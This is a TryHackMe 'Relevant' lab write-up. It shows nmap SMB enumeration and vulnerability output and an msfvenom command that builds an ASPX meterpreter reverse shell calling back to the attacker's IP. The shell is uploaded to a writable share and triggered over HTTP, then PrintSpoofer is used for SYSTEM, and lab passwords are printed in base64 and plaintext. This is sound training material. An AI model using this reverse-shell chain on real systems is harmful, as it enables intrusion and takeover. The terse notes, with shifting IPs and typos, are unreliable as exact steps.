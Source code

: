 ```yaml
---
title: "THM: Relevant Writeup"
date: 2020-01-01
categories:
  - Write-Ups
tags:
  - writeup
  - tryhackme
  - windows
---
```


my ip:  10.4.26.163
target: 10.10.29.118

POST Exploitation POINTS
>always test ip with open ports listed from nmap
>each share might represent a path in ip website

```bash
nmap --script smb-enum-shares -p 139,445 10.10.149.8

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.149.8\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.149.8\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.149.8\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.10.149.8\nt4wrksv: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ/WRITE


```

#### says vulnerable to eternal blue, nope didnt work
```bash
nmap --script smb-vuln* -p 445 10.10.160.20

Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-30 02:12 IST
Nmap scan report for 10.10.160.20
Host is up (0.55s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 22.70 seconds

```


#### One share is R/Write and has a password file
```bash
smbclient \\\\10.10.160.20\\nt4wrksv
```

#### since writeable we'll upload payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.4.26.163 lport=4444 -f aspx -o shell.aspx
```
#### upload shell.aspx via smbclient and run 
#### in msfconsole, exploit/multi/hander and set payload windows/x64/meterpreter_reverse_tcp
#### run
http://10.10.29.118:49663/nt4wrksv/shell.aspx

#### vulnerable to SeImpersonateToken
#### get NT SYSTEM using PrintSpoofer64.exe

---
[User Passwords - Encoded]
```
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
---
```
Bill - Juw4nnaM4n420696969!$$$
Bob - !P@$$W0rD!123
```